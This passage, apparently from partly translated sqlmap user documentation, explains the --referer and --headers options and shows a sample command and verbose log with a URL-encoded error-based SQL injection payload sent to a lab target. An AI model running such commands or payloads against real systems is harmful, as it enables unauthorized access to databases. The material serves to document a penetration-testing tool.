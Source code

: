 Option: `--referer`

It is possible to fake the HTTP `Referer` header value. By default **no** HTTP `Referer` header is sent in HTTP requests if not explicitly set.

Note that also the HTTP `Referer` header is tested against SQL injection if the `--level` is set to **3** or above. Read below for details.

### 其余HTTP头

Option: `--headers`

It is possible to provide extra HTTP headers by setting the option `--headers`. Each header must be separated by a newline and it is much easier to provide them from the configuration INI file. You can take a look at the sample `sqlmap.conf` file for such case.

示例（对一个MySQL目标的运行结果）：

```
$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?id=1" -z \
"ign,flu,bat,tec=E" --headers="Host:www.target.com\nUser-agent:Firefox 1.0" -v 5
[...]
[xx:xx:44] [TRAFFIC OUT] HTTP request [#5]:
GET /sqlmap/mysql/get_int.php?id=1%20AND%20%28SELECT%209351%20FROM%28SELECT%20C\
OUNT%28%2A%29%2CCONCAT%280x3a6161733a%2C%28SELECT%20%28CASE%20WHEN%20%285473%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3D%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%205473%29%20THEN%201%20ELSE%200%20END%29%29%2C\
0x3a6c666d3a%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.CHARA\
CTER_SETS%20GROUP%20BY%20x%29a%
29 HTTP/1.1
Host: www.target.com
Accept-encoding: gzip,deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-agent: Firefox 1.0
Connection: close
[...]
```
